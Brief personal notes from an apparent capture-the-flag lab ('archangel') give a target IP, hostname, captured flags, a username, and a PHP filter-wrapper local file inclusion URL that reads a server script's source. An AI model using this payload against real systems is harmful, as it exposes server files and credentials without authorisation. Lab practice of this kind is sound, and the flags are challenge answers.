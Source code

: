 
10.10.125.112

mafialive.thm
thm{f0und_th3_r1ght_h0st_n4m3} on the page

fuzzing:
test.php

editing the url we got fron the button in burp
/test.php?view=PHP://filter/convert.base64-encode/resource=/var/www/html/development_testing/test.php
thm{explo1t1ng_lf1} in the code


User: archangel

